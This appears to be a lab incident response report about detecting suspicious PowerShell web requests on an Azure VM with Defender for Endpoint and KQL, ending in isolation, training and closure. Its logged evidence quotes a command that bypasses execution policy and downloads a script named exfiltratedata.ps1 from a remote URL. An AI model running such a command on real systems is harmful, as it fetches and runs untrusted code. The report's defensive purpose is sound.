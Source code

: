<img width="600" src="https://github.com/user-attachments/assets/3139ed02-bf2c-4d30-973e-12dc1063fcba" alt="Incident Response Lifecycle"/>

# Incident Response Report: PowerShell Suspicious Web Request

## Platforms and Languages Leveraged
- Windows 10 Virtual Machines (Microsoft Azure)
- EDR Platform: Microsoft Defender for Endpoint
- Kusto Query Language (KQL)
- Microsoft Sentinel

##  Scenario

Management has raised concerns about potential attempts to download malicious tools or payloads directly within our network. Logs for one of the flagged virtual machines display incidents where PowerShell launched. Microsoft Defender for Endpoint also flagged repeated download attempts from unfamiliar scripts, which also look suspicious. At this stage, it is unclear whether any of the scripts have been successfully downloaded or executed, prompting immediate investigation. The goal is to detect any use of the "Invoke-WebRequest" command - a method that can potentially download or execute external scripts while bypassing detection mechanisms - and to analyze any downloaded scripts or files to mitigate risks of unauthorized access. 

### High-Level Incident Response Plan

- **Check `DeviceProcessEvents`** for any PowerShell executions involving the `Invoke-WebRequest` command and investigate any suspicious download activity.
- **Check `DeviceProcessEvents`** for any successful execution of downloaded scripts to assess potential impact.
- **If applicable, `isolate affected devices`, `block access to malicious domains`, `run an antimalware scan`, and `implement restrictions on PowerShell usage`** to prevent unauthorized script execution.

---

## Steps Taken

### 1. Searched the `DeviceProcessEvents` Table

Searched for instances within the last 24 hours where PowerShell was downloaded using the `Invoke-WebRequest` command for Device: "windows-target-1". Identified 24 such incidents, where the following commands were executed: 

a)InitiatingProcessCommandLine
            
        "cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1


b)ProcessCommandLine
            
        powershell.exe  -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1


The suspicious web request was triggered on 1 device: "windows-target-1" by 1 user, but downloaded 4 different scripts with 4 different commands


<ul>
<li>eicar.ps1</li>

<li>portscan.ps1</li>

<li>pwncrypt.ps1</li>

<li>exfiltratedata.ps1</li>
</ul>


**Query used to locate events:**

![image](https://github.com/user-attachments/assets/89c2a2cc-e446-42a5-bc7c-446429ad29ed)


<p>
<img src="https://github.com/user-attachments/assets/f70f72a2-79eb-450a-bb2c-4efcc849507d"  alt="KQL Query Results"/> &emsp; &emsp;
<img src="https://github.com/user-attachments/assets/74e652dd-2033-44ea-aacb-82e787cc2cf6"   alt="KQL Query Results"/>
</p>


---

### 2. Searched the `DeviceProcessEvents` Table a Second Time

Searched for instances where the scripts: `eicar.ps1`, `portscan.ps1`, `pwncrypt.ps1`, `exfiltratedata.ps1` were successfully executed. It was later discovered that all 4 scripts were indeed.

**Query used to locate events:**

![image](https://github.com/user-attachments/assets/9347c43d-f38d-4873-8e55-e6c4062ec09a)

![image](https://github.com/user-attachments/assets/1eb274cc-2d4c-43a6-a4ca-417e7fb7ca98)
![image](https://github.com/user-attachments/assets/724222a9-6361-4704-aa8f-304ee8e89d6a)

Summarized by Count: 

![image](https://github.com/user-attachments/assets/8919ead5-4916-4dbc-940f-504f3ceb39bc)


---

### 3. Isolated the affected device in Microsoft Defender

Device: `windows-target-1` was isolated in Microsoft Defender for Endpoint, and an antimalware scan was run to ensure no malware was present.

**Ex. 1: Device: windows-target-1:**
![image](https://github.com/user-attachments/assets/cc6460f8-c4bb-4575-86ba-b26be8c531b9)


---

### 4. Enforced Cybersecurity Awareness Training

Enrolled affected user in additional cybersecurity awareness training and upgraded organization-wide security awareness program (KnowBe4) to a more robust package with increased training frequency.

Implemented a policy change that limited/restricted PowerShell usage to authorized personnel only.

Enhanced endpoint monitoring for script execution activities.

---

### 5. Restored the impacted virtual machine

Reviewed and completed write-up for incident resolution. Finalized reporting and closed out the incident in Microsoft Sentinel as a true positive.

![image](https://github.com/user-attachments/assets/5e6c7a40-2dba-4bae-b12c-8a943c56c7b7)









